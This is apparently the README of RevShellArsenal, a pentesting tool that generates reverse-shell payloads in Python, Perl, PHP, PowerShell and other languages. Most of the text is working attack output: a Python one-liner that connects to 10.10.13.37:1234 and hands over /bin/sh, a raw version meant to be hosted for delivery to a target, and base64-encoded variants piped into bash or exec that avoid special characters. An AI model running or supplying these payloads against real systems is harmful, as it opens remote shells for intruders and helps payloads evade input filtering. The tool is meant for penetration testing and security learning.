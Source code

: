 # RevShellArsenal

___RevShellArsenal___ is a small tool I wrote to generate reverse shells in differents languages, based on widely known techniques (e.g.: pentestmonkey cheat sheet). 

<p align="center">
  <img src="https://raw.githubusercontent.com/itm4n/RevShellArsenal/master/screenshots/01_demo-all.png">
</p>

## Usage
```
usage: rsg.py [-h] [--raw] [--encode]
              {all,shell,perl,python,php,groovy,cmd,powershell} lhost lport

RevShellArsenal - Reverse Shell Generator

positional arguments:
  {all,shell,perl,python,php,groovy,cmd,powershell}
                        Payload (choose 'all' to generate all payloads)
  lhost                 Local IP address
  lport                 Local port

optional arguments:
  -h, --help            show this help message and exit
  --raw                 Print raw payload instead of one-liner
  --encode              Encode raw payload and print command
```

## Examples

Generate a __Pyhon__ Reverse Shell __one-liner__.
```
user@host:~$ ./rsg.py python 10.10.13.37 1234
[SHELL][PYTHON][ONE-LINER]
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.13.37",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Generate a __Python__ Reverse Shell and print it as __raw code__. This is useful if you want to output the result to a script a file and then __host it on a web server__ to deliver it to the target.
```
user@host:~$ ./rsg.py python 10.10.13.37 1234 --raw
[PYTHON][RAW]
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.13.37",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

Generate a __Python__ Reverse Shell and print it as an __encoded command__. This is useful to __avoid special characters__.
```
user@host:~$ ./rsg.py python 10.10.13.37 1234 --encode
[SHELL][PYTHON][ENCODED]
bash -c "{echo,cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTMuMzciLDEyMzQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc=}|{base64,-d}|{bash,-i}"

[PYTHON][ENCODED]
python -c "exec('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zOwpzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKTsKcy5jb25uZWN0KCgiMTAuMTAuMTMuMzciLDEyMzQpKTsKb3MuZHVwMihzLmZpbGVubygpLDApOwpvcy5kdXAyKHMuZmlsZW5vKCksMSk7Cm9zLmR1cDIocy5maWxlbm8oKSwyKTsKcD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSk7'.decode('base64'))"
```

## Credits

[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) - The famous reverse shell cheat sheet from pentestmonkey.

[Nishang PowerShell Reverse Shells](https://github.com/samratashok/nishang/tree/master/Shells) - Great PowerShell scripts for Windows-based reverse shells.

[java.lang.Runtime.exec() Payload Workarounds](https://jthuraisamy.github.io/archives.html/runtime-exec-payloads.html) - A tool to _encode_ Bash, PowerShell, Perl and Python commands/scripts. Useful when special characters usage is limited. The link is broken but is still available in [Google cache](https://webcache.googleusercontent.com/search?q=cache:5AdcRIUec4sJ:https://jackson.thuraisamy.me/runtime-exec-payloads.html).
